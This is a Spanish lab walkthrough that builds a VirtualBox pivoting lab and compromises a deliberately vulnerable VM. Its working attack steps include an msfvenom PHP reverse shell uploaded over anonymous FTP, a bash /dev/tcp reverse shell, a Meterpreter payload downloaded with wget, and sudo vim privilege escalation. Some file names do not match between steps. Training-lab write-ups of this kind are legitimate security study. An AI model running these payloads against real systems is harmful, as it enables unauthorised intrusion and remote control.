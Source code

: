 
-----
- TAG: #Configuración #Preparación #Laboratorios #Pivoting #Linux 
----
# Preparación de Laboratorio para Pivoting

En este apartado vamos a preparar el laboratorio para realizar pivoting. La configuración involucra una máquina atacante (Linux), una máquina intermedia (Linux), y una máquina final a la que tendremos que llegar finalmente.

## Maquinas involucradas

- **Máquina atacante:** Kali Linux
- **Máquina intermedia:** [Friendly de Hackmyvm](https://hackmyvm.eu/machines/machine.php?vm=Friendly)
- **Máquina final:** [Basic de Vulnyx](https://vulnyx.com/#basic)

### Configuración de la Red en VirtualBox

- Vamos a **Archivo > Herramientas > Administrador de red** y creamos una red NAT con el nombre `Red_Pivoting` y asignamos la dirección IP `10.10.10.0/24`.
- La máquina Kali tiene que estar en **Adaptador puente** en la configuración de red.
- La máquina **Friendly** será la máquina intermedia. En el primer adaptador debe estar configurado como **Adaptador puente** y en el segundo adaptador en **RED_NAT** con la red `Red_Pivoting`.
- La máquina **Basic** será la máquina final. Esta solo tendrá activado un adaptador de red que será **RED_NAT**.

Una vez hechas estas configuraciones, podemos iniciar las máquinas.

---

# Detección y Exploración de Vulnerabilidades

## Identificación de la Máquina Objetivo

Desde nuestra máquina Kali, ejecutamos el siguiente comando para encontrar la máquina en la red:

```bash
arp-scan -I eth0 --localnet
```

## Escaneo con Nmap

Ejecutamos un escaneo con `nmap` para encontrar vulnerabilidades en la máquina objetivo:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4
```

Encontramos que los puertos `80` y `21` están abiertos.

---

# Acceso a la Máquina Vulnerable

## Exploración del Servicio FTP

El puerto 21 está abierto y nos podemos logear con el usuario `anonymous` y una clave en blanco (comportamiento por defecto).

## Creación de Payload

Creamos un payload con `msfvenom` para obtener acceso a la máquina:

```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwnws.php
```

## Subida del Payload

Nos logeamos al servicio FTP y subimos el payload:

```bash
put pwned.php
```

## Configuración de Escucha

Nos ponemos a la escucha en el puerto 443:

```bash
nc -nlvp 443
```

### Carga del Payload

Accedemos a la web y cargamos el payload para obtener acceso:

```http
1.2.3.4/pwned.php
```

---

# Estabilización de la Conexión

Como la conexión no es estable, creamos una nueva escucha en el puerto 444:

```bash
nc -nlvp 444
```

Luego, transferimos la sesión del puerto 443 al 444:

```bash
bash -c "sh -i >& /dev/tcp/1.2.3.4/444 0>&1"
```

---

# Creación de Payload para Meterpreter

En lugar de continuar con `netcat`, es recomendable crear un payload para obtener una sesión de Meterpreter:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=4444 -f elf -b '/x00/x0a/x0d' -o virus
```

## Compartir el Payload

Compartimos el archivo malicioso a través de un servidor Python:

```bash
python3 -m http.server 80
```

## Descarga del Payload en la Máquina Víctima

Desde la conexión actual en la máquina víctima, descargamos el payload:

```bash
wget 1.2.3.4/virus
```

---

# Configuración de Metasploit para Recibir la Sesión

Abrimos Metasploit y configuramos el handler:

```bash
use /multi/handler
```

Mostramos las opciones del módulo:

```bash
show options
```

Seleccionamos el payload adecuado:

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

Asignamos nuestra dirección IP atacante:

```bash
set LHOST 1.2.3.4
```

Ejecutamos el handler:

```bash
run
```

---

# Ejecución del Payload en la Máquina Víctima

En la máquina intermedia **Friendly**, asignamos permisos de ejecución al archivo malicioso:

```bash
chmod +x virus
```

Ejecutamos el archivo para enviar la sesión a Metasploit:

```bash
./virus
```

---

# Escalada de Privilegios

Nuestro primer objetivo es convertirnos en `root`, ya que como usuarios `www-data` no podemos realizar el pivoting.

## Verificación de Permisos

Verificamos los privilegios de usuario con `sudo`:

```bash
sudo -l
```

Podemos ejecutar el binario `/usr/bin/vim`. Sin embargo, antes de proceder, realizamos un tratamiento de TTY:

```bash
script /dev/null -c bash
```

## Escalada de Privilegios con Vim

Utilizamos **GTFOBins** para encontrar el comando necesario para escalar privilegios con `vim`:

```bash
sudo vim -c ':!/bin/sh'
```

---

# Finalización del Pivoting

Una vez obtenida la sesión de `root`, ejecutamos el payload en la máquina intermedia para completar el pivoting:

```bash
./virus
```

---

